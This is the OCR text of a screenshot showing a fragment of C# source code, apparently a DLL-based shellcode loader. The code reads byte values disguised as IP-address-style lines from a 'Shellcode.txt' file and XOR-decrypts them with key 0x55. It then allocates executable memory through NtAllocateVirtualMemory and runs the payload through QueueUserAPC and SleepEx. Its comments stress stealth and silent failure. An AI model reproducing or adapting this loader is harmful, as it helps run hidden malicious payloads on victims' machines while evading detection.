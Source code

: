 ```
                string basePath = Path.GetDirectoryName(dllPath);
                string filenamePath = Path.Combine(basePath, "Shellcode.txt");

                if (File.Exists(filenamePath))
                {
                    ExecuteShellcodeFromFile(filenamePath);
                }
            }
            catch (Exception ex)
            {
                // No error message for stealth
            }
        }

        private static void ExecuteShellcodeFromFile(string filename)
        {
            try
            {
                string[] lines = File.ReadAllLines(filename);
                List<byte> shellcode = new List<byte>();

                foreach (var line in lines)
                {
                    string[] parts = line.Split('.');
                    if (parts.Length == 4)
                    {
                        shellcode.AddRange(parts.Select(byte.Parse));
                    }
                }

                // XOR Decrypt the shellcode
                for (int i = 0; i < shellcode.Count; i++)
                {
                    shellcode[i] ^= 0x55;  // XOR key: 0x55
                }

                // Allocate memory stealthily
                IntPtr pMemory = IntPtr.Zero;
                UIntPtr size = (UIntPtr)shellcode.Count;
                uint ntstatus = NtAllocateVirtualMemory(
                    (IntPtr)(-1), 
                    ref pMemory, 
                    IntPtr.Zero, 
                    ref size, 
                    0x3000, 
                    0x40
                );

                if (ntstatus != 0 || pMemory == IntPtr.Zero)
                    return;  // Memory allocation failed

                Marshal.Copy(shellcode.ToArray(), 0, pMemory, shellcode.Count);

                // Get handle to current thread
                IntPtr hThread = GetCurrentThread();

                // Queue shellcode execution
                if (!QueueUserAPC(pMemory, hThread, IntPtr.Zero))
                    return;  // Failed to queue execution

                // Trigger APC execution
                SleepEx(0, true);
            }
```